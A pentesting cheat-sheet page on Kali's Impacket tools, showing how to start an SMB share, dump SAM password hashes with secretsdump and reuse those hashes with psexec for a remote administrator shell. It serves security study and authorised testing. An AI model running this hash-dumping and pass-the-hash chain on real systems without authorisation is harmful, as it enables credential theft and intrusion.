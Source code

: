 # impacket

> Impacket is a collection of Python3 classes focused on providing access to network packets. Impacket allows Python3 developers to craft and decode network packets in simple and consistent manner. It includes support for low-level protocols such as IP, UDP and TCP, as well as higher-level protocols such as NMB and SMB.

### List of available scripts

Run the following command to list all the available scripts:

`/usr/share/kali-menu/helper-scripts/impacket-scripts.sh`

```bash
$ /usr/share/kali-menu/helper-scripts/impacket-scripts.sh
impacket-addcomputer     impacket-getArch          impacket-mimikatz       impacket-rbcd           impacket-sniff
impacket-atexec          impacket-Get-GPPPassword  impacket-mqtt_check     impacket-rdp_check      impacket-sniffer
...
```



**impacket-smbserver**

**Eg.** The example code below (second line) starts a simple _SMB_ server with a network share named `public` pointing to the `share` directory.

```bash
$ impacket-smbserver -smb2support -username [smb_username] -password [smb_password] [sharename] [dir]

# eg.
$ impacket-smbserver -smb2support -username jarrett -password mynamejeff public share
```

* -`smb2support`: SMB2 support (experimental!)
* `-username`, `-password`: Username and password combination required by the connecting user for authentication

**impacket-secretsdump**

**Eg.** The example below dumps the hashes from the `sam.hive`and `system.hive`files present on the current folder (specified by the `LOCAL` target option).

```bash
# Simple usage
$ impacket-secretsdump -sam SAM -system SYSTEM target  

# eg.
$ ls 
sam.hive system.hive

$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket vxxx - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...:::
Guest:xxx:xxx:xxx::
Administrator:xx12xx:xx34xx::
...
```

* `-sam`:  **SYSTEM** hive to parse
* `-system`:  **SAM** hive to parse
* `target`:  \[`[domain/]username[:password]@`] or `LOCAL` (if you want to parse local files)

**impacket-psexec**

**Eg.** The example below uses the hashes found from the `impacket-secretsdump` command above, to authenticate as the _**administrator**_ user. This provides us with a remote shell as the specified user.

```bash
# Simple usage
$ impacket-psexec -hashes LMHASH:NTHASH target

# eg.
$ impacket-psexec -hashes xx12xx:xx34xx administrator@10.10.x.x
...
```

_**What is PsExec?**_

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/psexec" %}

* `-hashes`: NTLM hashes, format is `LMHASH:NTHASH`
* `target`: \[`[domain/]username[:password]@`]



{% embed url="https://www.kali.org/tools/impacket/" %}
